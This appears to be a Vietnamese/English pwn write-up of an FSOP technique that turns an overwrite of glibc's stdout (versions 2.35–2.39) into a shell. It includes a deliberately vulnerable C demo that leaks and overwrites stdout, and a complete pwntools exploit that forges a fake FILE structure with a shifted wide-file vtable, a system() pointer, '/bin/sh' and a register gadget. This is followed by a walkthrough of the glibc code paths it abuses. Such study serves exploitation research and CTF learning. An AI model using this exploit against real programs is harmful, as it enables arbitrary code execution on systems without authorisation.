

Lấy cảm hứng từ [blog](https://aneii11.github.io/p/fsop-code-execution/).
Test thành công trên `glibc 2.35`, `2.38`, `2.39` (same code path).
# Scenery

Có khả năng ghi đè `stdout` trong libc, thường required libc leak:
- malloc lên `stdout` trong libc (tcache poisoning, house of spirit, ...)
- ...
Có khả năng overwrite ít nhất `0xE0` bytes.

# POC

## Demo code C

Chỉ cần compile code C theo hướng dẫn shogun (dựa theo version glibc):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("libc leak: %lx\n", stdout);
    read(0, stdout, 0xE0);
    puts("trigger");

    return 0;
}
```

Cho libc leak và ghi đè trực tiếp lên `stdout`, gọi `puts()` (hoặc bất kì hàm nào làm việc với `stdout`) để trigger fsop.

## Demo exploit 

Compile binary trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 123
b *main + 138
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(b"0x" + p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

system = libc_base + libc.symbols['system']
add_rdi_0x10_jmp_rcx = libc_base + 0x000000000013b0d0
_IO_stdfile_1_lock = libc_base + libc.symbols['_IO_stdfile_1_lock']
_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']
fake_vtable = libc_base + libc.symbols['_IO_wfile_jumps'] - 0x18

fake_stdout = [p64(0x3b01010101010101), # _flags
               p64(0),
               p64(system), # _IO_read_end
               p64(0) * 3,
               b"/bin/sh\x00", # _IO_write_end
               p64(0) * 2,
               p64(add_rdi_0x10_jmp_rcx), # _IO_save_base
               p64(0) * 7,
               p64(_IO_stdfile_1_lock), # _lock
               p64(0),
               p64(_IO_2_1_stdout_ + 0xb8), # _codecvt
               p64(_IO_2_1_stdout_ + 0x200), # _wide_data
               p64(0) * 2 + p64(_IO_2_1_stdout_ + 0x20) + p64(0) * 3, # padding the __pad5
               p64(fake_vtable) # vtable
               ]
payload = b"".join(fake_stdout)
p.send(payload)

p.interactive()
```

<mark>Với mỗi version glibc, exploit chỉ cần sửa lại đoạn tính toán `libc_base` và offset của gadget  `add_rdi_0x10_jmp_rcx`</mark>.

# Idea

## Call `_IO_wfile_underflow`

<mark>The usual stream of most function using `stdout` is to call `_IO_xsputn`</mark> through `_IO_file_jumps`, which is a `_IO_jump_t` vtable:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libioP.h#L294)


~~The exploit shift the vtable back 3 functions, which turn `__xsputn` into `__underflow` entry.~~
Có vẻ an3eii nhầm chỗ này, exploit fake vtable về địa chỉ `&_IO_wfile_jumps - 0x18` mục đích là để chương trình thay vì gọi `_IO_new_file_xsputn` sẽ gọi `_IO_wfile_underflow`.


Ở trên là vtable gốc, ở dưới là vtable fake, offset cách một đoạn lớn nhưng vẫn validate vì thuộc vùng vtable, chứ không hẳn là "shift back 3 functions".

## Bypass flag check and call `__libio_codecvt_in`

Bên trong hàm `_IO_wfile_underflow`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wfileops.c#L111)


The exploit manages to call `__libio_codecvt_in`, which take the first argument being `_IO_2_1_stdout_->_codecvt`. I’ll talk later what’s inside `__libio_codecvt_in`. 

But now, take a look at how the exploit bypass all the flag check to get to its desired call.

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libio.h#L66)


There’re 3 conditions need to be met to reach to `__libio_codecvt_in`:

- As decleared as macros, `_IO_EOF_SEEN` and `_IO_NO_READS` being `0x0010` and `0x0004` respectively. Those flags need to be <mark>turned off</mark>, as in `_IO_wfile_underflow`. The exploit’s flag is `fake.flags = 0x3b01010101010101`, which passed both checks (có thể đổi flag khác).

- The `_IO_wide_data` is also checked (`fp->_wide_data->_IO_read_ptr < fp->_wide_data->_IO_read_end`), however we set `fp->wide_data = nullbuf` (null region) so it easily passes the check (dấu `=` sẽ xảy ra -> pass điều kiện).

- Last one, `fp->_IO_read_ptr < _IO_read_end`: we did not set `fp->_IO_read_ptr`, but `_IO_read_end`, so it is `0`, which passed the check (có thể đổi giá trị khác miễn là thỏa mãn điều kiện để nhảy vào trong `if`).

## Inside `__libio_codecvt_in`

Bên trong `__libio_codecvt_in`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/iofwide.c#L160)


Yes  `DL_CALL_FCT(fct, (gs, ..))` will actually call the func `fct(gs, ....)`

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/bits/dlfcn.h#L54)


Yes, our function pointer is finally here. As described, it calls `(*fctp) (arg1,arg2);`. But first, what is `fct`?. We don’t care about what it is, but we need to know how they control that.

First, it gets `gs = codecvt->__cd_in.step`, fortunately is at offset 0 of `codecvt` (confirmed). As I debug, `codecvt` point back to `_IO_2_1_stdout_+32`:


Then, it takes `fct = gs->__fct`, which lies at offset `0x28` (or 5 `qword`)

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/iconv/gconv.h#L84)


Take a look back at my gdb, at offset `0x28` from `*gs` is gadget `add rdi, 0x10, jmp rcx`. Our current `rdi` is at `*gs`, and `+0x10` means `rdi` will contain `"/bin/sh"`. Meanwhile, `rcx` already pointed to `system`. Voila!

(Debug by yourself)


## Attention

Also one thing to note, we need to padding the `__pad5` of `stdout` to write section, or else the exploit won't work.
